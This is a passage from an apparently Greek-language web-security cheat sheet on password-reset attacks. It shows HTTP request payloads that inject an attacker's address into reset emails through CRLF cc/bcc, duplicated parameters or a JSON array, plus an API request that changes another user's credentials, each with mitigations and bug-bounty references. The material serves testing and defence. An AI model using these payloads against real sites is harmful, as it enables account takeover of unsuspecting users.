 ```php
email="victim@mail.tld%0a%0dcc:attacker@mail.tld"
```
- Προσθέστε το email του επιτιθέμενου ως δεύτερη παράμετρο χρησιμοποιώντας bcc
```php
POST /resetPassword
[...]
email="victim@mail.tld%0a%0dbcc:attacker@mail.tld"
```
- Προσθέστε το email του επιτιθέμενου ως δεύτερη παράμετρο χρησιμοποιώντας ,
```php
POST /resetPassword
[...]
email="victim@mail.tld",email="attacker@mail.tld"
```
- Προσθέστε το email του επιτιθέμενου ως δεύτερη παράμετρο στο json array
```php
POST /resetPassword
[...]
{"email":["victim@mail.tld","atracker@mail.tld"]}
```
- **Βήματα Μείωσης**:
- Κατάλληλη ανάλυση και επικύρωση παραμέτρων email από τον server.
- Χρήση προετοιμασμένων δηλώσεων ή παραμετροποιημένων ερωτημάτων για την αποφυγή επιθέσεων injection.
- **Αναφορές**:
- [https://medium.com/@0xankush/readme-com-account-takeover-bugbounty-fulldisclosure-a36ddbe915be](https://medium.com/@0xankush/readme-com-account-takeover-bugbounty-fulldisclosure-a36ddbe915be)
- [https://ninadmathpati.com/2019/08/17/how-i-was-able-to-earn-1000-with-just-10-minutes-of-bug-bounty/](https://ninadmathpati.com/2019/08/17/how-i-was-able-to-earn-1000-with-just-10-minutes-of-bug-bounty/)
- [https://twitter.com/HusseiN98D/status/1254888748216655872](https://twitter.com/HusseiN98D/status/1254888748216655872)

## **Αλλαγή Email και Κωδικού πρόσβασης οποιουδήποτε Χρήστη μέσω Παραμέτρων API**

- Οι επιτιθέμενοι μπορούν να τροποποιήσουν τις παραμέτρους email και κωδικού πρόσβασης σε αιτήματα API για να αλλάξουν τα διαπιστευτήρια του λογαριασμού.
```php
POST /api/changepass
[...]
("form": {"email":"victim@email.tld","password":"12345678"})
```
- **Βήματα Μείωσης**:
- Διασφαλίστε αυστηρή επικύρωση παραμέτρων και ελέγχους ταυτοποίησης.
- Εφαρμόστε ισχυρή καταγραφή και παρακολούθηση για την ανίχνευση και αντίδραση σε ύποπτες δραστηριότητες.
- **Αναφορά**:
- [Full Account Takeover via API Parameter Manipulation](https://medium.com/@adeshkolte/full-account-takeover-changing-email-and-password-of-any-user-through-api-parameters-3d527ab27240)

## **Χωρίς Περιορισμό Ρυθμού: Email Bombing**
